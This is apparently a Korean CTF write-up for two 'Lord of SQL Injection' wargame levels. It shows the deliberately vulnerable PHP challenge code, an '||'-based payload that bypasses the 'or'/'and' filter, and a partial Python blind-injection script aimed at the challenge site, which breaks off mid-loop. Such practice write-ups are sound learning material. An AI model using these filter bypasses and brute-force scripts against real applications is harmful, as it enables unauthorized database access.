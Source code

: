 이번에는 `or` 그리고 `and` 논리연산자 사용이 불가능한 문제이다.

<br>

## writeup

"또는" 을 의미하는 연산자는 `or` 이외에도 `||` 기호도 있다.

```
pw=' || id='admin
```

![image-20220608162149785](../img/image-20220608162149785.png)

<br><br><br>

-----


# LOS: orge

## 삽질

```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/or|and/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_orge where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_orge where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orge"); 
  highlight_file(__FILE__); 
?>
```



<br>

## writeup

앞선 두 문제 풀이의 개념을 결합하면 되는 문제이다.



```python
import requests
cookie = {'PHPSESSID':''}
flag = 1

def my_request(upw):
	url = f'https://los.rubiya.kr/chall/orge_bad2f25db233a7542be75844e314e9f3.php?pw={upw}'
	response = requests.get(url=url,cookies=cookie)
	return response

def find_pw(res):
	for i in range(38,127):
		upw = f'1\' || pw like \'{res}'+chr(i)+'%\' --+'
		response = my_request(upw)
```